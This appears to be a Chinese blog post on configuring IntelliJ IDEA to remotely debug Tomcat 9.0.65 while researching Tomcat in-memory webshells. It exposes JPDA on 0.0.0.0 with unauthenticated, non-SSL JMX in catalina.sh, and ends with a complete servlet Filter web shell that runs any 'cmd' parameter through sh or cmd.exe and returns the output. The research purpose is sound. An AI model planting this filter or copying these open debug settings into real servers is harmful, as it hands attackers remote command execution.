









## IDEA tomcat远程调试

最近研究tomcat内存马，但本地不具备代码运行条件，本地dns坏了，本地运行报错：

	错误: 代理抛出异常错误: java.net.MalformedURLException: Local host name unknown: java.net.UnknownHostException: ***-PC: ***-PC

遂尝试远程调试，远程调试会自动把本地和远程的代码同步。

## 实验环境

本地 windows

tomcat 9.0.65

远程 centos

tomcat 9.0.65

本地和远程的tomcat版本必须一致。

## 远程配置

	cd /home/***/
	wget https://dlcdn.apache.org/tomcat/tomcat-9/v9.0.65/bin/apache-tomcat-9.0.65.zip
	unzip apache-tomcat-9.0.65.zip
    cd apache-tomcat-9.0.65/bin/
	vim catalina.sh

在最前面添加如下：

	export JPDA_ADDRESS=0.0.0.0:2333
	CATALINA_OPTS="-Dcom.sun.management.jmxremote -Dcom.sun.management.jmxremote.port=1099 -Dcom.sun.management.jmxremote.ssl=false -Dcom.sun.management.jmxremote.authenticate=false -Djava.rmi.server.hostname=10.10.40.65"
	export CATALINA_OPTS

其中，2333是调试debug的port，10.10.40.65是远程调试的主机，1099是jmxremote.port。(JMX最常见的场景是监控Java程序的基本信息和运行情况，任何Java程序都可以开启JMX)

启动tomcat

	./catalina.sh jpda start



## 本地IDEA配置

```Edit Configurations --> Tomcat Server --> Remote```



```Application Server --> Configure``` 选择tomcat路径 (本地和远程tomcat同一个版本的用处在这里体现出来了)



```Tomcat Server Settings --> Remote staging``` 选择 Type "sftp"，Host里面配置ssh的密码就可以了，用于同步客户端和服务端源代码。 



Mappings 里面本地代码根路径文件夹和远端代码的发布路径映射。



Staging 里面的2个路径都填写项目部署到服务器上的路径。



Server Tab 右面有 Deployment Tab，点击 Deployment Tab，点击 ```Artifact```，添加项目war包，点击 Apply。



在 Deployment Tab 右边配置 Startup/Connection Tab，端口为在远程server catalina.sh配置的debug端口 2333。

## 启动IDEA 调试

点击debug 图标


运行后，会自动同步客户端代码至服务端。

浏览器访问：

	http://10.10.40.65:8080/untitled1_war_exploded/?cmd=***



### 我的代码：




	import javax.servlet.*; // //apache-tomcat-7.0.79\lib\servlet-api.jar
	import javax.servlet.annotation.WebFilter;
	import javax.servlet.annotation.WebServlet;
	import javax.servlet.http.HttpServletRequest;
	import javax.servlet.http.HttpServletResponse;
	import java.io.IOException;
	import java.io.InputStream;
	import java.util.Scanner;
	
	//@javax.servlet.annotation.WebFilter(filterName = "CmdFilter")
	@WebFilter("/*")
	public class CmdFilter implements javax.servlet.Filter {
	    public void destroy() {
	    }
	
	    public void doFilter(javax.servlet.ServletRequest req, javax.servlet.ServletResponse resp, javax.servlet.FilterChain chain) throws javax.servlet.ServletException, IOException {
	        //HttpServletRequest req1 = (HttpServletRequest) req;
	        //HttpServletResponse resp1 = (HttpServletResponse) resp;
	        // 如果有cmd 参数 则拦截，否则 404
	        if (req.getParameter("cmd") != null) {
	            boolean isLinux = true;
	            String osTyp = System.getProperty("os.name");
	            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
	                isLinux = false;
	            }
	            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
	            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
	            //Scanner通过用户回车进行读取IO流,然后扫描是否有分隔符,如果没有,那么继续等待下一段IO流.
	            Scanner s = new Scanner(in).useDelimiter("\\A");  //设置当前scanner的分隔符,默认是空格,正则表达式"\\A"跟"^"的作用是一样的，代表文本的开头。
	            String output = s.hasNext() ? s.next() : "";
	            resp.getWriter().write(output);
	            resp.getWriter().flush();
	        }
	
	        chain.doFilter(req, resp);
	    }
	
	    public void init(javax.servlet.FilterConfig config) throws javax.servlet.ServletException {
	    }
	}


## reference

[在 Idea 中配置远程 tomcat 并部署](https://blog.csdn.net/m0_67403272/article/details/124107815)